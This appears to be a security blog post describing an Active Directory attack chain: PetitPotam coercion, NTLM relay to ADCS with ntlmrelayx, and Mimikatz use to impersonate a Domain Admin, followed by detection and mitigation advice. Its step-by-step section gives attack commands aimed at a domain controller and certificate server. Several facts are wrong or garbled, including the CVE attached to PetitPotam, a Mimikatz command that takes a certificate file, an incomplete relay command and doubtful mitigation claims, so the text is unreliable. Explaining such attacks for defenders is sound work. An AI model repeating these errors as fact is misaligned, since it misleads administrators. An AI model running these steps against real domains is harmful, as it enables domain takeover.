 ```yaml
---
title: "Exploiting CVE-2021-26414: PetitPotam, ADCS, and Domain Compromise"
published: 2025-04-18
updated: 2025-04-18
description: 'A deep dive into the CVE-2021-26414 exploit chain: PetitPotam, NTLM relay attacks, and ADCS misconfigurations for privilege escalation.'
image: 'CVE-2021-26414.webp'
tags: ['CVEs']
category: 'Active Directory Attacks'
draft: false
lang: 'ar-eng'
---
```



## **Table of Contents**  
1. Introduction to CVE-2021-26414: A Critical Privilege Escalation Vulnerability
2. Understanding the Vulnerability: PetitPotam and ADCS Misconfiguration 
3. Exploitation Mechanism of CVE-2021-26414**  
4. Step-by-Step Exploitation Process
5. Post-Exploitation: Gaining Domain Admin Privileges
6. Detection Strategies for CVE-2021-26414
7. Mitigation and Best Practices to Prevent Exploitation
8. onclusion and Key Takeaways 
9. References for Further Readin


> **⚠️ Caution:** #FreePalestine

---

**CVE-2021-26414** is a **privilege escalation vulnerability** that leverages a combination of **PetitPotam** (which exploits the **MS-EFSRPC** protocol) and **Active Directory Certificate Services (ADCS)**. The vulnerability allows an attacker to escalate their privileges to **Domain Admin** (DA) by exploiting **NTLM relay attacks** and **ADCS misconfigurations**. This vulnerability primarily affects **Windows Server versions** and can lead to full domain compromise.

### **`PetitPotam Overview`**

PetitPotam exploits the **Microsoft Encrypting File System Remote Protocol (MS-EFSRPC)**, which is used for **file encryption and decryption** on Windows machines. This protocol can be abused to force a machine to authenticate via **NTLM** and can lead to **NTLM relay attacks** when the **MS-EFSRPC** service is misconfigured.

### **`ADCS Overview`**

**Active Directory Certificate Services (ADCS)** is a service that allows an organization to issue **public key certificates** for users, devices, and services within a **Windows domain**. If ADCS is improperly configured, an attacker can request certificates they are not authorized for, enabling them to impersonate high-privilege accounts like **Domain Admins**.

### `**2. Exploitation Mechanism**`

### **PetitPotam Tool: Abusing MS-EFSRPC for NTLM Authentication Relay**

1. **PetitPotam** abuses the **MS-EFSRPC** protocol by forcing a vulnerable **domain controller** (DC) or **Windows machine** to authenticate using **NTLM authentication**. The tool makes the target system request NTLM authentication, which can then be intercepted and relayed.
2. The attacker uses a tool like **Impacket's `ntlmrelayx.py`** to **relay the NTLM hash** to an **Active Directory Certificate Services (ADCS)** server.
3. **ADCS** can be misconfigured in such a way that it issues certificates to unauthorized users. By relaying the NTLM authentication to the **ADCS server**, the attacker can impersonate **Domain Admins**.

---

### **`3. Step-by-Step Exploitation of CVE-2021-26414`**

### **Step 1: Attacker’s Setup**

The attacker needs a **low-privileged user account** within the domain, and the **target system** (usually the **Domain Controller** or a machine communicating with ADCS) must have the **MS-EFSRPC** service running and vulnerable to the PetitPotam attack.

### **Step 2: Triggering MS-EFSRPC Authentication**

The **PetitPotam** tool will exploit the **MS-EFSRPC** vulnerability to trigger NTLM authentication. PetitPotam forces the **target system** to authenticate with NTLM, making it vulnerable to relay attacks.

### **`Command to Run PetitPotam**:`

```abap
# Running PetitPotam tool to trigger NTLM authentication relay
python3 petitpotam.py <target-dc-ip> <attacker-ip>

```

- **<target-dc-ip>**: IP address of the **Domain Controller** or the vulnerable system.
- **<attacker-ip>**: IP address of the attacker’s machine.

This sends an **NTLM authentication request** to the attacker's machine.

### **`Step 3: Relay NTLM Authentication to ADCS Server`**

Once the **NTLM request** is triggered, the attacker can use **Impacket's `ntlmrelayx.py`** to **relay** the authentication to the **ADCS server**.

### **Impacket Relay Command**:

```abap
Use ntlmrelayx to relay NTLM authentication to ADCS server

python3 [ntlmrelayx.py](http://ntlmrelayx.py/) -t http://<adcs-server>/certsrv
```

- **<adcs-server>**: The IP address or hostname of the **ADCS server**.

This step **relays the NTLM hash** from the DC to the ADCS server, where the attacker can **request a certificate**.

### **`Step 4: Request Certificate with Relayed NTLM Authentication`**

By exploiting the **NTLM relay**, the attacker gets a **certificate** from the ADCS server that can be used to impersonate a **Domain Admin**.

If **ADCS** is improperly configured and doesn't restrict certificate requests, the attacker can request a certificate for any **privileged account** (like **Domain Admin**).

---

### **`Post-Exploitation: Impersonating Domain Admin`**

Once the attacker receives the **privileged certificate**, they can use tools like **Mimikatz** to inject it into their **Kerberos ticket cache**.

### **Mimikatz Command to Inject Certificate**:

```abap
# Inject the certificate into the Kerberos ticket cache
mimikatz.exe "kerberos::ptt <certificate-file>"

```

This allows the attacker to **authenticate** as the **Domain Admin** and gain **Domain Admin privileges**.

---

### **`5. Detection and Mitigation`**

### **Detection**

1. **Event Logs (Event ID 4648)**:
    - When an **NTLM authentication request** is made with explicit credentials, **Event ID 4648** is generated. This event can help identify unauthorized NTLM authentication attempts.
2. **Network Traffic Monitoring**:
    - Watch for unusual **RPC** or **SMB** traffic patterns. This is particularly important to detect **NTLM relay attempts** and **PetitPotam abuse**.
3. **Monitoring Certificate Requests**:
    - Monitor certificate requests from machines that are not **authorized** to request privileged certificates. **ADCS logging** can help identify when **unauthorized certificate requests** are made.
4. **SMB and RPC Anomalies**:
    - Look for anomalies in **SMB** or **RPC** traffic, especially **NTLM authentication relays** that target **ADCS servers**.

### **Mitigation**

1. **Apply Microsoft’s March 2022 Patch**:
    - Microsoft released a patch to fix **CVE-2021-26414**. Ensure that the patch is applied to **all Windows servers** running **MS-EFSRPC** and **ADCS**.
2. **Disable MS-EFSRPC if Not Required**:
    - If **MS-EFSRPC** is not needed for your environment, **disable the service** to prevent exploitation.
3. **Restrict Access to ADCS**:
    - Limit who can request certificates from the **ADCS server** by applying proper **role-based access control**. Ensure that only **authorized accounts** (e.g., **Domain Admins**) can request certificates.
4. **Force SMB Signing**:
    - **SMB signing** ensures that SMB traffic cannot be **intercepted** or **modified**, which helps prevent **NTLM relay attacks**.
5. **Enforce NTLMv2**:
    - Disable **NTLMv1** and enforce **NTLMv2** in your domain to mitigate relay attacks that rely on **NTLM**.
6. **Audit and Restrict SMB Permissions**:
    - Audit and restrict **SMB shares** to prevent unauthorized access. **SMB permissions** should be tightly controlled.

---

### **`6. Conclusion and Key Takeaways`**

**CVE-2021-26414 (PetitPotam + ADCS)** is a serious **privilege escalation** vulnerability in Windows domains. By exploiting the **MS-EFSRPC** protocol via **PetitPotam** and relaying the **NTLM authentication** to a **misconfigured ADCS server**, attackers can obtain **Domain Admin** privileges.

To prevent such attacks, organizations should **apply patches**, **disable unnecessary services**, and carefully **audit** their Active Directory environments for misconfigurations. Monitoring **network traffic** and **event logs** for signs of exploitation is crucial for early detection.

---

### `**References for Further Reading**`

- [**Microsoft Security Advisory CVE-2021-26414**](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26414)
- [**PetitPotam Tool** (GitHub)](https://github.com/fireshare/PetitPotam)
- [**Impacket NTLM Relay** (GitHub)](https://github.com/SecureAuthCorp/impacket)
- [**Mimikatz GitHub**](https://github.com/gentilkiwi/mimikatz)